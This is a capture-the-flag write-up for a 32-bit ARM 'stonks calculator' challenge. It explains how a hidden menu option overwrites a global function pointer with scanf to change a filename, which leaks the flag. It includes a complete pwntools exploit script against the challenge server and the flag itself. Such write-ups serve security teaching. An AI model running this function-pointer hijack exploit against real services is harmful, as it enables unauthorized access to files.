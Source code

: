 # secure-prototype

## Challenge

The challenge is a 32-bit ARM binary which serves as a calculator application.

We can select an option by entering a number.
For each option except "stop" and "help", we are prompted to give 3 integer parameters.

```
Welcome to the new and tops3cr3t stonkz calculator, we can show you information about old stonkz or calculate stonkz based on your assets
What do you want to do?
(1 will help you)
>>>1

----------------------------------------------------------------
| Help Menu:                                                    |
| Each action is associated with an id                          |
| Just give me an id and necessary values                       |
|--------------------------------------------------------------|
|ID     | ACTION                | PARAMS                        |
|0      | stop                  | no params                     |
|1      | help                  | no params                     |
|16     | change calc           | 3 params                      |
|32     | print stonks          | 3 params                      |
|48     | show old stonks       | 3 params                      |
|4919   | calc stonks           | 3 params                      |
|--------------------------------------------------------------|
>>>
```

### Mitigations

```
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

## Solution

Every loop, a global filename string is set to "stonks.txt" if it was not already set.

The "show old stonks" option will print the file contents of the file given by the above filename variable.

By disassembling the binary, we can see that there is a hidden option, with the id 0x420.
This calls a helper function that is used by the "change calc" option.
The function sets a global function pointer to a given parameter.
This pointer called by the "calc stonks" option, which passes it our first 2 parameters.

We can use this hidden option to change the function pointer to `scanf`.
Then we can call "calc stonks" and pass a `"%s"` string as our first argument, and the address of the filename global as our second argument.

This will prompt us to enter a filename, which will be "flag.txt".

Now, if we call "show old stonks", the program will print the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host flu.xxx --port 20040 public/challenge.elf
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('public/challenge.elf')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'flu.xxx'
port = int(args.PORT or 20040)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     arm-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x10000)

io = start()

io.sendlineafter(b">>>", str(0x420).encode())
io.sendlineafter(
        b"please gimme your 3 parameters:\n>>>",
        " ".join([str(exe.sym["__isoc99_scanf"]), "1337", "1337"]).encode()
        )

io.sendlineafter(b">>>", str(0x1337).encode())
io.sendlineafter(
        b"please gimme your 3 parameters:\n>>>",
        " ".join([str(next(exe.search(b"%s\x00"))), str(0x22058), "1337"]).encode()
        )

io.sendline(b"flag.txt")
io.sendlineafter(b">>>", str(0x30).encode())
io.sendlineafter(b"please gimme your 3 parameters:\n", b"1337 1337 1337")

io.interactive()
```

## Flag

`flag{gl0bal_st0nkz_and_gl0bal_var1abl3}`

